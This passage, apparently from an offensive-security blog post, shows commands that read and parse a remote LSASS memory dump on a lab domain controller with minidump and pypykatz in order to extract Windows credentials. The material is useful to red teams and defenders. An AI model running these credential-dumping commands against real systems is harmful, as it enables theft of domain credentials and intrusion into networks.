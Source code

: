 [![Remote Minidump](/assets/uploads/2019/11/minidump_patched.png)](/assets/uploads/2019/11/minidump_patched.png)


```
minidump adsec.local/jsnow:Winter_is_coming_\!@DC01.adsec.local:/C$/Windows/Temp/lsass.dmp
```

In the same way, since pypykatz is using minidump, it can analyze the remote dump without downloading it completely.

[![Remote Pypykatz](/assets/uploads/2019/11/pypykatz_patched.png)](/assets/uploads/2019/11/pypykatz_patched.png)

```
pypykatz lsa minidump adsec.local/jsnow:Winter_is_coming_\!@DC01.adsec.local:/C$/Windows/Temp/lsass.dmp
```


### Optimizations

We now have a way to read and analyze an lsass dump remotely, without having to download the full 150MB dump on our machine, it's a great step forward!
